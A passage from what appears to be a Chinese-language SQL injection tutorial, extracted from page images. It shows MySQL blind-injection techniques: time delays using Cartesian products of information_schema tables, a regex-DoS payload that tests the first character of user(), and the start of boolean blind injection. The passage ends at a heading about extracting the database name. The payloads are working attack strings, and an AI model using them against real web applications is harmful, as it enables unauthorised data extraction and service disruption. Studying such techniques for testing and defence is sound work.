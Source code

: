```mysql
1 row in set (5.00 sec)
```

+ 最后还可以释放锁。当显式执行`release_lock(lock_name)`或session隐式地过期时，该锁都会被释放。

```
mysql>  select release_lock('lock1');
+-----------------------+
| release_lock('lock1') |
+-----------------------+
|                     1 |
+-----------------------+
1 row in set (0.00 sec)
```



**（4）笛卡尔积盲注**

笛卡尔积能够将多个表合并成一个表，从而达到时间延时的作用。

```
select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C
```



```mysql
select * from users where id='1' and (select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C
```



**（5）正则DOS**

在本地执行后消耗3s。

```mysql
mysql> select * from users where id='1' and if(mid(user(),1,1)='r',concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+cd',1);

Empty set (2.98 sec)
```





#### 4.1.2 布尔盲注

试探是否存在注入，通过页面的回显判断。

```mysql
select * from users where id='1' and 1/1
```

布尔盲注爆数据库名
